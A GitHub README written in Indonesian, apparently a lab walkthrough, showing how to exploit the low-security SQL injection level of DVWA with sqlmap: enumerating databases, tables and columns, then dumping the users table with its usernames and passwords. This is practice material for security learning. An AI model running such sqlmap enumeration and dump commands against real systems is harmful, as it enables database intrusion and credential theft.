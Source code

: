<b> HOW TO SOLVE SQL INJECTION LOW </b>

1. First, kita masukin user ID dengan angka '1' untuk men test, setelah itu kita copy url nya

   ```
   http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit# 
   ```

![Screenshot (445)](https://user-images.githubusercontent.com/118157585/215420792-fea06c63-43ad-459a-bca5-b848f089d75d.png)

2. Lalu kita buka Sqlmap di cli kita, copy url tadi. berikut perintahnya :

  ```
  sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' --dbs
  ```

![Screenshot (446)](https://user-images.githubusercontent.com/118157585/215426505-51d80e8d-087c-4bfa-830d-b39d10f0f624.png)

![Screenshot (447)](https://user-images.githubusercontent.com/118157585/215426535-dfa75a1f-ed59-4a17-a7d8-dd45c03ee464.png)
  nah setelah itu keluar databases nya yang mana bisa kita cek dulu untuk mencari username dan password, seperti gambar diatas terdapat 2 databases yaitu 
  
  <i><b> dvwa </b></i>

  <i><b> information_scheme </b></i>
  
3. Nah disini kita eksekusi dulu di databases <i><b> dvwa </i></b>, dan terdapat 2 tables. dengan perintah :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa --tables
   ```
   
4. Sekarang kita coba cek kolom dari tables <i><b> users </i></b>, nah gambar dibawah ini terdapat sebuah username dan password. dengan mengetikkan perintah :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa -T users --column
   ```
   
5. Setelah kita mengetahui di tables <i><b> users </i></b> terdapat kolom usernam dan password, sekarang kita langsung 
   ``
   dump
   ``
    saja tables tersebut dengan mengetikkan perintah :
   
   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa -T users --dump
   ```
   
